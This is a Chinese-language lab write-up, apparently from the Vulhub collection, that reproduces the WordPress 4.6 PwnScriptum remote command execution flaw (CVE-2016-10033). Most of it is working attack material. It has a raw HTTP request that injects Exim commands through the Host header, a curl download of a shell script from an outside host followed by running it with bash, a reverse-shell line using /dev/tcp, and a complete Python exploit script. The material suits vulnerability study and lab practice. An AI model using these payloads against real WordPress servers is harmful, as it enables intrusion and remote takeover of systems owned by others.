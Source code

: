 # Wordpress 4.6 任意命令执行漏洞 PwnScriptum

## 漏洞描述

参考：https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## 环境搭建

Vulhub编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于Mysql初始化需要一段时间，所以请等待。成功运行后，访问`http://your-ip:8080/wp-admin/install.php`打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。

## 漏洞复现

发送如下数据包，可见`/tmp/awesome_poc`已经成功创建：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}awesome_poc}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

![image-20220302225431160](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022254237.png)

![image-20220302225419095](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022254142.png)

但实际利用起来，还是有一些坑需要踏过。具体的坑有这么几个：

1. 执行的命令不能包含大量特殊字符，如`:`、引号等。
2. 命令会被转换成小写字母
3. 命令需要使用绝对路径
4. 需要知道某一个存在的用户的用户名

为了解决这些坑，漏洞作者想出了，利用`${substr{0}{1}{$spool_directory}}`代替`/`，用`${substr{10}{1}{$tod_log}}`代替空格的方法。

但是还是有很多字符不能用，所以我们需要将待执行的命令放到第三方网站中，然后通过`curl -o /tmp/rce example.com/shell.sh`的方法先将他下载到/tmp目录中，再去执行。

所以，总体来说利用过程如下：

- 编写反弹shell的exp，放到某个网页里。有如下要求：
  - 整个url的大写字母会被转换成小写，所以大写小敏感的系统不要使用大写字母做文件路径
  - 访问该网页不能跳转，因为follow跳转的参数是`-L`（大写）
- 拼接成命令`/usr/bin/curl -o/tmp/rce example.com/shell.sh`和命令`/bin/bash /tmp/rce`
- 将上述命令中的空格和`/`转换成`${substr{10}{1}{$tod_log}}`和`${substr{0}{1}{$spool_directory}}`
- 拼接成HTTP包的Host头：`target(any -froot@localhost -be ${run{command}} null)`
- 依次发送这两个拼接好的数据包

将上述过程写成[exp脚本](https://github.com/vulhub/vulhub/blob/master/wordpress/pwnscriptum/exploit.py)，将脚本中target修改成你的目标，user修改成一个已经存在的用户，`shell_url`修改成你放置payload的网址。（或直接将target作为第一个参数、`shell_url`作为第二个参数）

> example.com/shell.sh的内容为：
>
> ```
> bash -i >& /dev/tcp/your-reverse—shell-ip/9999 0>&1
> ```

执行即可获得shell：

```
python wordpress.py http://192.168.174.128:8080 example.com/shell.sh
```

监听9999端口，接收反弹shell：

![image-20220302225928420](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022259514.png)

## 漏洞POC

```python
#!/usr/bin/env python3
import requests
import sys

# wordpress's url
target = 'http://127.0.0.1' if len(sys.argv) < 1 else sys.argv[1]
# Put your command in a website, and use the website's url
# don't contains "http://", must be all lowercase
shell_url = 'example.com/1.txt' if len(sys.argv) < 2 else sys.argv[2]
# an exists user
user = 'admin'

def generate_command(command):
    command = '${run{%s}}' % command
    command = command.replace('/', '${substr{0}{1}{$spool_directory}}')
    command = command.replace(' ', '${substr{10}{1}{$tod_log}}')
    return 'target(any -froot@localhost -be %s null)' % command


session = requests.session()
data = {
    'user_login': user,
    'redirect_to': '',
    'wp-submit': 'Get New Password'
}
session.headers = {
    'Host': generate_command('/usr/bin/curl -o/tmp/rce ' + shell_url),
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}
session.allow_redirects = False
target += '/wp-login.php?action=lostpassword'
session.post(target, data=data)

session.headers['Host'] = generate_command('/bin/bash /tmp/rce')
session.post(target, data=data)
```

